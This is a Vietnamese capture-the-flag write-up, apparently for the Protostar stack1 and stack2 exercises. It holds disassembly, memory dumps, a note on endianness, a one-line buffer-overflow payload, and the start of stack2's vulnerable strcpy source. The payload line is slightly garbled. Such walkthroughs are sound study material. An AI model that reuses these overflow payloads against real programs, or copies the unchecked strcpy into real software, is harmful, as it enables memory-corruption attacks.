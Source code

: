 ```c
   0x080484c0 <+92>:    mov    edx,DWORD PTR [esp+0x5c]
   0x080484c4 <+96>:    mov    eax,0x80485f3
   0x080484c9 <+101>:   mov    DWORD PTR [esp+0x4],edx
   0x080484cd <+105>:   mov    DWORD PTR [esp],eax
   0x080484d0 <+108>:   call   0x8048378 <printf@plt>
   0x080484d5 <+113>:   leave
   0x080484d6 <+114>:   ret
```

Bài này hint ý tưởng là cần ghi đè lên buff và biến modifind , nhưng tại đây có mofidend phải có giá trị 0x61626364 thì nảy đến win

#### Địa chỉ Buff

Nằm trong eax

```c
0xffffcddc:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffcdec:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffcdfc:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffce0c:     0x61616161      0x61616161      0x61616161      0x61616161
```

#### Địa chỉ buff và biến đã ghi đè

```c
0xffffcddc:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffcdec:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffcdfc:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffce0c:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffce1c:     0x63626161      0xf7fb0064      0xf7fbb000      0x00000000
```

Đây có một điểm cần lưu ý bạn biết vì sao số 64 không nằm trong vị trí đầu không.

Cái này do 1 phần về cách lưu trữ dữ liệu theo **Little endian và big endian**

Markup : [Little endian và big endian](https://baoninhsunrise.com/big-endian-la-gi/)

### Payload

```python
  print('a'*65 +'/x64/x63/x62/x61')./stack1
```

### Stack 2

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);
```